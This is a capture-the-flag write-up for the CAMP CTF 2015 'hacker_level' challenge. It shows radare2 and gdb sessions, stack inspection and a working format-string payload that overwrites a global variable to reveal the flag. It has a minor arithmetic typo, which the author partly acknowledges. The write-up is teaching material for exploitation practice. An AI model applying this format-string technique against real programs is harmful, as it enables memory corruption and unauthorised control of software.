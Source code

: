 # CAMP CTF 2015: hacker_level-200

**Category:** Pwn
**Points:** 200
**Solves:** 64
**Description:**

> What's your hacker level?
>
> Find out with this nifty little app at challs.campctf.ccc.ac:10118. You can also run your own instance: [hacker_level](hacker_level.tar.gz)

## Write-up

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/campctf-2015-hacker-level/> 

### Meta

Vulnerability:

* Format String
* Hardcoded Check Evasion

We are given an unstripped 32bit ELF for i386 Linux:

```bash
$ file hacker_level
hacker_level: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=29288494155b99bcb97cd3af0961c9a34d307be2, not stripped
```

Running the binary:

```bash
$ ./hacker_level
What's your name? hello
Hello, hello
Sorry, you're not leet enough to get the flag :(
Your hacker level is: 0x3076
```

We can input a name, which is then printed back to us.

We open the binary in `radare2` to print available functions:

```bash
[0x080486ea]> aa
[0x080486ea]> afl | sort -k1 | column -t
0x08048440  35   3   sym._init
0x08048480  16   2   sym.imp.setbuf
0x08048490  16   2   sym.imp.printf
0x080484a0  16   2   sym.imp.fgets
0x080484b0  16   2   sym.imp.fclose
0x080484c0  16   2   sym.imp.__stack_chk_fail
0x080484d0  16   2   sym.imp.usleep
0x080484e0  16   2   sym.imp.fread
0x080484f0  16   2   sym.imp.puts
0x08048500  16   2   loc.imp.__gmon_start__
0x08048510  16   2   sym.imp.__libc_start_main
0x08048520  16   2   sym.imp.fopen
0x08048530  476  11  section..text
0x080486ea  34   1   entry0
0x08048710  4    1   sym.__x86.get_pc_thunk.bx
0x08048720  43   4   sym.deregister_tm_clones
0x08048750  53   4   sym.register_tm_clones
0x08048790  30   3   sym.__do_global_dtors_aux
0x080487b0  43   4   sym.frame_dummy
0x080487e0  93   4   sym.__libc_csu_init
0x08048840  2    1   sym.__libc_csu_fini
0x08048844  20   1   sym._fini
```

We see some interesting imported functions, such as `fgets`, `printf` and `fread`, as well as our binarys functions, all cluttered together in `section..text`.

Fortunately, we are given the source code of our binary, [hacker_level.c](./hacker_level.c).

We can see some interesting things:

* In line `21`, we can clearly see our input handed - without modifications - to `printf` as the first parameter. This indicates a Format String Vulnerability.
* In line `24`, we see a check of our `level` object against `0xCCC31337`:
  * If it fails, it just prints that we don't have the correct hacker level
  * If it succeeds, the flag is read from `flag.txt` (if it exists) and printed to us
* The function `calc_level` calculates our level in such a way that we never achieve the correct level in a legal way. Our level is always calculated modulo `0xcafe`.

Having these statements in mind, we know that we have to overwrite `level` to fit `0xCCC31337`.

We first have to find out the address to `level`, e.g. in `radare2`, to overwrite it using a Format String Exploit:

```bash
[0x080486ea]> is | grep level
vaddr=0x0804a04c paddr=0x0000104c ord=044 fwd=NONE sz=4 bind=LOCAL type=OBJECT name=level
```

Now that we have the address to `level` (`0x0804a04c`), we have to find the correct offset to our input.

First, decompile the text section of our binary in `radare2` to find the address to our `printf(name);` call:

```bash
[0x080486ea]> aa
[0x080486ea]> pdf @ section..text 
            ;-- main:
            ;-- main:
            ;-- section_end..plt:
/ (fcn) section..text 476
|           ; var int local_0_1    @ ebp-0x1
[...]
|           0x080485fd      c70424738804.  mov dword [esp], str.Hello_ ; hacker_level.c:20  printf("Hello, "); ; [0x8048873:4]=0x6c6c6548  LEA str.Hello_ ; "Hello, " @ 0x8048873 ; .//hacker_level.c:20  .usleep(150000);
|           0x08048604      e887feffff     call sym.imp.printf
|           0x08048609      891c24         mov dword [esp], ebx        ; hacker_level.c:21  printf(name); ; .//hacker_level.c:21  .printf(\"Hello, \");
|           0x0804860c      e87ffeffff     call sym.imp.printf
|           0x08048611      c7042460ae0a.  mov dword [esp], 0xaae60    ; hacker_level.c:23  usleep(700000); ; [0xaae60:4]=-1 ; .//hacker_level.c:23  
|           0x08048618      e8b3feffff     call sym.imp.usleep
[...]
```

Looks like we have to set a breakpoint in `gdb` at `0x0804860c` to avoid bruteforcing the correct offset for our Format String Exploit:

```bash
gdb-peda$ b *0x0804860c
Breakpoint 1 at 0x804860c: file hacker_level.c, line 21.
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/camp-hackercalc/hacker_level 
What's your name? AAAA%x.%x.%x
Hello, [----------------------------------registers-----------------------------------]
EAX: 0x7 
EBX: 0xffffd4bc ("AAAA%x.%x.%x\n")
ECX: 0x7 
EDX: 0xf7fb9898 --> 0x0 
ESI: 0xffffd4c9 --> 0x0 
EDI: 0xffffd4fc --> 0x0 
EBP: 0xffffd568 --> 0x0 
ESP: 0xffffd4a0 --> 0xffffd4bc ("AAAA%x.%x.%x\n")
EIP: 0x804860c (<main+220>:     call   0x8048490 <printf@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485fd <main+205>:        mov    DWORD PTR [esp],0x8048873
   0x8048604 <main+212>:        call   0x8048490 <printf@plt>
   0x8048609 <main+217>:        mov    DWORD PTR [esp],ebx
=> 0x804860c <main+220>:        call   0x8048490 <printf@plt>
   0x8048611 <main+225>:        mov    DWORD PTR [esp],0xaae60
   0x8048618 <main+232>:        call   0x80484d0 <usleep@plt>
   0x804861d <main+237>:        add    esp,0x10
   0x8048620 <main+240>:        cmp    DWORD PTR ds:0x804a04c,0xccc31337
Guessed arguments:
arg[0]: 0xffffd4bc ("AAAA%x.%x.%x\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd4a0 --> 0xffffd4bc ("AAAA%x.%x.%x\n")
0004| 0xffffd4a4 --> 0x40 ('@')
0008| 0xffffd4a8 --> 0xf7fb8c20 --> 0xfbad208b 
0012| 0xffffd4ac --> 0xf7ffdaf0 --> 0xf7ffda94 --> 0xf7fbc2b8 --> 0xf7ffd938 --> 0x0 
0016| 0xffffd4b0 --> 0xffffd570 --> 0x80487e0 (<__libc_csu_init>:       push   ebp)
0020| 0xffffd4b4 --> 0xf7fe57aa (cmp    eax,0x0)
0024| 0xffffd4b8 --> 0xffffd520 --> 0xffffffff 
0028| 0xffffd4bc ("AAAA%x.%x.%x\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804860c in main () at hacker_level.c:21
21              printf(name);
gdb-peda$ x/20wx $esp
0xffffd4a0:     0xffffd4bc      0x00000040      0xf7fb8c20      0xf7ffdaf0
0xffffd4b0:     0xffffd570      0xf7fe57aa      0xffffd520      0x41414141
0xffffd4c0:     0x252e7825      0x78252e78      0x0000000a      0x00000000
```

Our stack can be represented as such:

![](./stack.png)

On the left side, we can see what `printf` expects on the stack. On the right side, we see the values and addresses pushed to the stack.

Our input, `AAAA`, is assumed to be the format string and has the address `0xffffd4bc`.

It also is the `7th` word on the stack after the assumed format string - this is our offset.

To confirm:

```bash
$ ./hacker_level
What's your name? AAAA%x.%x.%x.%x.%x.%x.%x
Hello, AAAA40.f7745c20.f778aaf0.ffb684d0.f77727aa.ffb68480.41414141
Sorry, you're not leet enough to get the flag :(
Your hacker level is: 0x8957
```

The seventh `%x` in our test format string `AAAA%x.%x.%x.%x.%x.%x.%x` prints the beginning of our input, `41414141` - sweet!

If we switch `AAAA` with the address `level`, we can use `printf` to store a value into the given address using the format operand `%n`.

`%n` stores the number already printed into a given offset that we can specify by using the `<num>$` prefix. `%7$n` would mean store the number of characters printed into the seventh format string argument.

However, since we don't want to print `0xCCC31337`==`3435336503` characters to store the value, we have to split this operation into two smaller ones:

* Store the value `0x1337`==`4919` into the second half of `level`. Address: `0x0804a04c`
* Store the value `0xCCC3`==`52419` into the first half of `level`. Address: `0x0804a04e`
* Subtract previously printed characters from each value, making the value for the second half `4911` (8 bytes printed for both addresses) and the first half `47500` (`52149`-`4919`)

Our `printf` call will look like that: `printf("formatstring/input", &level_firsthalf, &level_secondhalf);`.

The final exploit is the following:

```bash
$ python -c 'print "\x4c\xa0\x04\x08\x4e\xa0\x04\x08%.4911u%7$hn%.47500u%8$hn"' > in
gdb-peda$ r < in
Starting program: /home/vbox/pwn/tasks/camp-hackercalc/hacker_level < in
What's your name? Hello, LN0000000000[...]
[...]
[...]00000004160457760
The flag is: CAMP15_337deec05ccc63b1168ba3379ae4d65854132604
[Inferior 1 (process 2925) exited normally]
Warning: not running or target is remote
```

The flag is `CAMP15_337deec05ccc63b1168ba3379ae4d65854132604`.

Note that this writeup is not as perfect as others. Please read others and fix issues with this one (e.g. the order of halves and their addresses), if you can!

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/campctf-2015-hacker-level/> 
* <https://nuc13us.wordpress.com/2015/09/04/hacker_level-200-campctf-2015/>
* [Russian](http://reu.org.ua/camp-ctf-2015-hacker-level.html)
* [Japanese](http://www.cnhackmy.com/hacked/CTF/2015/09/12/00001675.html)
* A similar challenge by [exploit-exercises](https://exploit-exercises.com/protostar/format3/) and a [writeup](https://www.mattandreko.com/2012/02/01/exploit-exercises-protostar-format-3/)
